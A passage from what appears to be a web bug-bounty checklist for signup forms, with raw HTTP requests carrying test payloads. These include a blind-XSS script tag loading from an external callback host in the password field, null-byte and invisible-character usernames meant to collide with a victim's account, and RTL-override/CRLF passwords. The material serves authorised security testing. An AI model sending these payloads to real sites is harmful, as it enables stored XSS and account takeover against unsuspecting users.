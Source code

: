 30. **Try To Set Password As Blind XSS e.g. "><script src=//me.xss.ht></script> OR XSS Payload To Know If Your Password Reflect Plaintext In Backend OR Not:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        firstname=I&lastname=am&email=me&password="><script
        src=//me.xss.ht></script>&captcha=Random&token=CSRF`
    - Note: Test these payloads in email addresses, usernames, first/last names, and password fields.
    - [ ] Done

31. **Try To Set Your Name, First Name, Last Name etc As TRUE, NULL, UNDEFINED etc:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        firstname=TRUE&lastname=TRUE&email=me@gmail.com&password=**************&captcha=Random&token=CSRF`
    - Note: Test these values in usernames and other fields for potential errors.
    - [ ] Done

32. **Try To Insert Invisible Range %00 To %FF in Your Email OR Username e.g. Victim's Username is bob, You Can't Register it So Use bob%00 OR %01bob:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        firstname=I&lastname=am&email=me&password=%01%E2%80
        %AEalert%0D%0A&captcha=Random&token=CSRF`
    - Note: Inject invisible range characters (%00 to %FF) into usernames or emails.
    - [ ] Done

33. **Try To Set Password e.g. %01%E2%80%AEalert%0D%0A Then Try To Log In Only Using %01, Log In Without CRLF And Is trela Accepted Instead Of alert ?:**

    - Payload:
      - `POST /signUp HTTP/1.1
        Host: www.company.com
        User-Agent: Mozilla/5.0
        Content-Type: application/x-www-form-urlencoded
        Referer: https://previous.com/path
        Origin: https://www.company.com
        Content-Length: Number
        firstname=I&lastname=am&email=me&password=%01%E2%80
        %AEalert%0D%0A&captcha=Random&token=CSRF`
    - Note: Check for behavior if using only `%01`, logging in without CRLF, and if trela is accepted instead of alert.
    - [ ] Done
